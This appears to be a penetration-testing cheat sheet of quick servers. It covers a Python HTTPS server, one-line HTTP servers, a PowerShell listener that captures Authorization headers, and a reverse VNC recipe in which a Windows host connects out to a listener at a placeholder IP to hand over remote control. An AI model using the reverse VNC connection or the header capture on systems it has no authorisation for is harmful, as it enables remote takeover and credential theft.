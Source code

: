# Simple HTTPS Python 3.X server
```python
# sudo python3
from http.server import HTTPServer, SimpleHTTPRequestHandler
import ssl, os
os.system("openssl req -nodes -x509 -newkey rsa:2048 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -subj '/CN=mylocalhost'")
port = 443
httpd = HTTPServer(('0.0.0.0', port), SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket, keyfile='/tmp/key.pem', certfile="/tmp/cert.pem", server_side=True)
print(f"Server running on https://0.0.0.0:{port}")
httpd.serve_forever()
```

# Simple HTTP Python 3.X server
```sh
python3 -m http.server 8000
```

# Simple HTTP Python 2.X server
```sh
python -m SimpleHTTPServer 8000
```

# Simple HTTP npm server via npx
```sh
npx http-server -p 8000
```

# A PowerShell Server to return the Authorization header
```powershell
$http = [System.Net.HttpListener]::new() 
$http.Prefixes.Add("http://localhost:10080/")
$http.Start()
$context = $http.GetContext()
write-host $context.Request.Headers.GetValues("Authorization")
$buffer = [System.Text.Encoding]::UTF8.GetBytes($context.Request.Headers.GetValues("Authorization"))
$context.Response.ContentLength64 = $buffer.Length
$context.Response.OutputStream.Write($buffer, 0, $buffer.Length)
$context.Response.OutputStream.Close()
```

# [Reverse VNC](https://blog.kennyjansson.com/2018/03/04/reverse-vnc-shell/)
## Server - Linux
```sh
vncviewer -listen 0
```

## Client - Windows
```batchfile
:: https://www.tightvnc.com/download.php
:: the file can be unpacked from MSI using 7z
tvnserver.exe
:: cmd /c tvnserver
tvnserver.exe -controlapp -connect <linux_ip>:5500
```
